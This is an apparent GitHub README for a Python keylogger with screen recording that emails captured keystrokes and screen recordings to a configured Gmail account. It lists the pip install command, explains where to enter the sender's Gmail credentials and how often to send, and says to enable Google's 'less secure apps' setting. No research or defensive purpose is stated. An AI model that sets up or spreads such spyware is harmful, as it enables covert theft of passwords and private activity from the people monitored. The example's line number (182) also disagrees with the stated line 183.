 # Keylogger with screen recorder
A keylogger that sends logs on email and records screen.

# Installation

This script requires numpy, pyautogui, opencv, requests, pynput and pypiwin32.

Install packages from console

```bash
pip install numpy pyautogui opencv-python requests pynput pypiwin32
```

# Instructions

- This script requires continuous Internet connection

- Change 183 line in Python file to set your email and password **(ONLY GMAIL MAILBOX)**
```python
183. e = SendEmail('YOUR_EMAIL', 'YOUR_PASSWORD', TIME)
```
**Remember to set the frequency of sending emails on your mailbox by changing the TIME value**

The TIME value is expressed in seconds

- **YOU NEED TO ALLOW LESS SECURE APPS ON YOUR GOOGLE ACCOUNT BEFORE USING THIS SCRIPT. YOU CAN DO IT HERE: https://myaccount.google.com/lesssecureapps**


> Example

```python
182. e = SendEmail('mailbox@gmail.com', 'password1', 10)
```

- Run script

